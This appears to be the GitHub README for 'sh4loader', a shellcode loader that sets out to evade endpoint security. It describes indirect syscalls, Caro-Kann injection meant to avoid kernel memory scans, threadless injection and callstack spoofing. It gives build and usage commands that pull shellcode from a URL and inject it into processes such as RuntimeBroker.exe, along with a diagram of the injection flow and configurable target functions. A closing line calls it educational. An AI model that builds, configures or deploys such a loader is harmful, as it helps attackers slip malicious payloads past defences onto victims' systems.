 # sh4loader

<p align="center">
<img src="https://raw.githubusercontent.com/Sh4N4C1/gitbook/main/images/sh4loader.png" alt="sh4loader">
</p>

## ✨ Function

- **Indirect Syscall**: sh4loader use `indirect` syscall.
- **Caro Kann**: sh4loader use [Caro-Kann](https://github.com/S3cur3Th1sSh1t/Caro-Kann) injection to evade kernel triggered memory scans.
- **Runtime Decrypt Shellcode**: sh4loader will bruteforce shellcode decryption key at runtime.
- **Threadless injection**: sh4loader use threadless injection.
- **CallstackSpoofing**: sh4loader use [CallstackSpoofing](https://github.com/pard0p/CallstackSpoofingPOC)

## Injection Method

- Local Common Injection
- Callstack spoof common Injection
- Caro-Kann Callstack spoof common Injection
- Caro-Kann threadless Injection
- Caro-Kann callstack spoff threadless Injection

## Install

```bash
git clone https://github.com/sh4n4c1/sh4loader.git
cd sh4loader
cargo build --release
./target/release/sh4loader --help
```

if build failed, we need update rustc

```bash
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh # update rustc
```

## Usage

```bash
sh4loader <injection-method> --shellcode-url <url> --output-path <project_output> --shellcode-path <shellcode_path>
```

## Detail

### Caro-Kann Callstack spoof threadless Injection

```bash
sh4loader kann-threadless-stack --shellcode-url <url> --output-path <project_output> --shellcode-path <shellcode_path>
```

This implant will find two memory, one for the `xor-encrypted main shellcode`, and one for the `Caro-Kann shellcode`. In threadless injection, it will first hook the target function, and then jump to the fixed shellcode to save the function state and then jump Go to Caro-Kann shellcode, Caro-Kann will help us decrypt and execute the main shellcode

```
  TARGET PROCESS
+-----------------+
|  [function A]   |------+ hooked function called and jump to our <save and jump shellcode> (1)
|    <hooked>     |      |
+-----------------+      |
|   MEMORY HOLE   |      |
| <save and jump> |<-----+ the <save and jump shellcode> will save hooked function state and jump to Caro (2)
|   <Caro-Kann>   |------+ <Caro-Kann shellcode> will sleep and decrypt <main shellcode> (3)
+-----------------+      |
|  [function B]   |      |
+-----------------+      |
|   MEMORY HOLE   |      |
| <main shellcode>|<-----+ <Caro-Kann shellcode> jump to <main shellcode> (4)
+-----------------+
```

1. During the execution of the implant, shellcode is patched to save the jump address.
2. [Callstack spoof](https://github.com/pard0p/CallstackSpoofingPOC) means that NtAPI will be called using the TpReleaseWork proxy.
3. The default function A and function B are `NtWaitForMultipleObjects` and `NtCreateWnfStateName` respectively. The default process is `RuntimeBroker`,because after using API Monitor I found that the RuntimeBroker process seems to call NtWaitForMultipleObjects every other time, and the NtCreateWnfStateName function is used to store the main shellcode.If you want to modify these default functions and processes, you can modify `include/KannThreadStackInj.h` in the implant project directory and Recompile with command `make KannThreadlessStackInj`

```c
// include/KannThreadStackInj.h

#define TARGET_PROCESS "RuntimeBroker.exe"      // Target process
#define TARGET_FUNC_TWO "NtCreateWnfStateName"  // Function B
#define TARGET_DLL "ntdll.dll"                  // Dll export Function A/B
#define TARGET_FUNC "NtWaitForMultipleObjects"  // Function A
```

### Caro-Kann threadless Injection

```bash
sh4loader kann-threadless-stack --shellcode-url <url> --output-path <project_output> --shellcode-path <shellcode_path>
```

Same as above, but using indirect syscalls instead of proxy calls.

### Caro-Kann Callstack spoof common Injection

```bash
sh4loader kann-spoofstacks --shellcode-url <url> --output-path <project_output> --shellcode-path <shellcode_path>
```

This Injection Method will use TpRelease proxy call `NtAllocateVirtualMemory` + `NtWriteVirtualMemory` + `NtCreateThreadEx` to inject Caro-Kann shellcode and encrypted main shellcode into the local process.

### Callstack spoof common Injection

```bash
sh4loader spoofstacks --shellcode-url <url> --output-path <project_output> --shellcode-path <shellcode_path>
```

This Injection Method will use TpRelease proxy call `NtAllocateVirtualMemory` + `NtWriteVirtualMemory` + `NtCreateThreadEx` to inject main shellcode into the local process.

### Local Common Injection

```bash
sh4loader common --shellcode-url <url> --output-path <project_output> --shellcode-path <shellcode_path>
```

This Injection Method just use indirect syscalls inject main shellcode into the local process.

## Resources

- https://github.com/pard0p/CallstackSpoofingPOC
- https://github.com/CCob/ThreadlessInject
- https://github.com/S3cur3Th1sSh1t/Caro-Kann
- https://github.com/caueb/ThreadlessStompingKann
- https://0xdarkvortex.dev/hiding-in-plainsight/
- https://maldevacademy.com/
- https://www.vulnlab.com/

This is my first time writing a loader.I'm not some sort of expert on malware development, C, C++.I will be making a lot of mistakes,I hope that my coding skills get better and better

Obviously, the stuff in this repository is explicitly for educational purposes.
